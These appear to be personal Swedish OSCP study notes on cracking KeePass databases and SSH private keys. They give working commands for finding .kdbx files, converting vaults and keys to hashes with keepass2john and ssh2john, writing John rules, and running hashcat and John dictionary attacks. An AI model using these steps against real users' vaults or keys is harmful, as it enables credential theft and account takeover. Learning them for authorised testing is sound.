 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/4-kee-pass-and-ssh-key-crack/"}
---
```


### KeePass Hash Crack:
1. Lokalisera databas-filen:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
2. För över filen till Linux.
3. Konvertera den till hash-format:
```bash
keepass2john Database.kdbx > keepass.hash
```
4. Redigera filen och ta bort eventuellt "användarnamn"
5. Ta reda på hash-ID:t för Hashcat:
```bash
hashcat --help | grep -i "KeePass"
```
6. Förbered eventuell regel fil som '.rule'
7. Cracka skiten:
```bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
8. Öppna databasen med "kpcli":
```

```

------------------

### SSH-key Crack:
1. Lokalisera id_rsa-fil och för över till lokal angriparmaskin.
2. Konvertera till hash-format:
```bash
ssh2john id_rsa > ssh.hash
```
3. Skapa regelfil om behövs, och lägg till obligatorisk första rad. Ex.
```
[List.Rules:<regelnamn>]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
4. Appenda nya regelfilen till /etc/john/john.conf:
```bash
sudo sh -c 'cat <regelfil> >> /etc/john/john.conf'
```
5. Cracka skiten:
```bash
john --wordlist=<ordlista> --rules=<regelnamn> ssh.hash
```

---------------------

### John hash-cracking:
``` bash
#Ta reda på hashtypen
hashid -e -j '<hash>'
hash-identifier <hash>

#Cracka med dictionary
john --wordlist=rockyou.txt --rules=regelnamn --format=<hashidformat> hash.txt

#Visa hashen igen
john --show pass.txt
```

Best john rules: https://charlesreid1.com/wiki/John_the_Ripper/Rules#Install_the_Rules

List all John rules:
```
for ruleset in `grep KoreLogicRules /etc/john/john.conf | cut -d: -f 2 | cut -d\] -f 1`; do echo ${ruleset}; done
```
